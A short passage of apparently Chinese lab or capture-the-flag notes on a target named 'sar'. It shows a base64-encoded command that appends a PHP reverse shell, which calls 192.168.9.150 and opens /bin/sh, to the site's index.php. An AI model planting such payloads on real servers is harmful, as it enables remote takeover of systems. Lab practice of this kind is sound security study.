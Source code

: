 ![](/images/sar--打靶笔记/1752587179452.png)

尝试在 index.php 中加入php的一句话反弹shell


​    
​    echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguOS4xNTAiLDEyMzQ1KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc= | base64-d >>index.php
